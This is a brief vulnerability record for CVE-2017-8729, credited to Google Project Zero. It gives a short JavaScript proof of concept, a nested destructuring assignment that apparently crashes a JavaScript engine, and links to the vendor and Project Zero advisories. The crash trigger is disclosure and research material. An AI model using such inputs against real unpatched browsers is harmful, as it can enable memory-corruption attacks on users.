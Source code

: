 # CVE-2017-8729

- Fix: Sep 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function f() {
    ({
        a: {
            b = 0x1111,
            c = 0x2222,
        }.c = 0x3333
    } = {});
}

f();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8729)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1308)

